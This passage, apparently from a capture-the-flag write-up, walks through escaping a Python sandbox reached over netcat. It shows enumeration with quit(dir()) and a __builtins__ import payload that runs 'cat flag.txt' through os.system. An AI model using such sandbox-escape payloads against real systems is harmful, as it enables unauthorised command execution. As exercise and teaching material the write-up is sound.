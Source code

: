 i got Exception which i know because its a syntax error
lets try
```
import os
```

well i got new Exception message

```
>> import os
The quieter you become, The more you are able to hear
```

the message tryna give us hint refer "quieter" by using common sense

i had to google how to escape with quit

tried
```
malwarepeter@spaceX:~$ nc 16.16.65.31 32000
.....
.....

Let me tell you a secret, There is a flag here!
>> quit()
("That won't work here", 'quit()', '?')
```

executed but the shell gone after that, that strange 

now back to our basic, see if we can execute basic command for enumeration

```
malwarepeter@spaceX:~$ nc 16.16.65.31 32000
...
...

Let me tell you a secret, There is a flag here!
>> quit(dir())
("That won't work here", 'quit(dir())', '?')
['__builtins__', '__doc__', '__file__', '__name__', '__package__', 'ascii_text', 'blacklisted', 'func', 'x']

```

boom we got it, and we can `__builtins__` module and `__file__` attribute as well, 

its going to be a piece of cake from here

lets try simple payload from using `__builtins__`

```
Let me tell you a secret, There is a flag here!
>> quit(__builtins__['__import__']('os').system('cat flag.txt')))
The quieter you become, The more you are able to hear
malwarepeter@spaceX:~$
```

executed but no flag, and shell existed weird 

